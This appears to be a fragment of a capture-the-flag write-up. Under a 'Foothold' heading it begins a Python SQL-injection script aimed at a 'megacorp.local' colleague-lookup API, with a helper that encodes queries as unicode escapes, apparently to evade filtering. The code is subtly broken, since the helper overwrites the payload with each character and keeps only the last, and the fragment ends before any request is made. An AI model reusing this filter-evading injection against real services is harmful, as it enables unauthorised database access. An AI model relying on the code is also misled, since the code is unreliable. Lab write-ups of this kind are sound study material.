 

![image-20221224153350502](./images/image-20221224153350502.png)





![image-20221224153449875](./images/image-20221224153449875.png)







# Foothold

## exploit sqli

sqli exploit script.

```python
import requests
import json
import cmd

url = "http://megacorp.local/api/getColleagues"
header = {"Content-Type":"application/json;charset=utf-8"}
proxy = {"http":"127.0.0.1:8080"}
def gen_payload(query):
    payload = ""
    for char in query:
        payload = r"\u{:04x}".format(ord(char))
    return payload
```